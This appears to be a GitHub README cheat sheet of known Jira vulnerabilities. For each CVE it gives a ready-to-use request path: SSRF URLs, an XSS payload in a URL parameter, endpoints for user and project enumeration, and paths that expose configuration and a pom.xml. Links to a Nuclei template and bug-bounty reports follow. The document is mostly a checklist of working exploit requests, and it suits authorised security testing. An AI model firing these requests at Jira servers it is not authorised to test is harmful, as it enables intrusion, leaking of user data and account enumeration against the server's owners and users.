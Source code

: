 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2020-14179 (Information Disclosure)
**2** | CVE-2020-14181 (User Enumeration)
**3** | CVE-2020-14178 (Project Key Enumeration)
**4** | CVE-2019-3402 (XSS)
**5** | CVE-2019-11581 (SSTI)
**6** | CVE-2019-3396 (Path Traversal)
**7** | CVE-2019-8451 (SSRF)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-3403 (User Enumeration)
**10** | CVE-2019-8442 (Sensitive Information Disclosure)
**11** | Tools
**12**| Reports

___
#### CVE-2017-9506 (SSRF)
```
a. Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
a. Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
b. It leaks information about custom fields, custom SLA, etc.

```

#### CVE-2020-14181 (User Enumeration)

```
a. Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>

```

#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```

#### CVE-2019-3402 (XSS)
```
a. Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search

```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
```
#### CVE-2019-3396 (Path Traversal)

#### CVE-2019-8451 (SSRF)

```
a.  Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-8449 (User Information Disclosure)
```
a. Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
b. Observe that the user related information will be available.
```

#### CVE-2019-3403 (User Enumeration)
```
a.  Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
b.  Observe the difference in response when valid vs. invalid user is queried.
```
#### CVE-2019-8442 (Sensitive Information Disclosure)
```
a.  Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
b. Observe that the pom.xml file is accessible.
```
#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
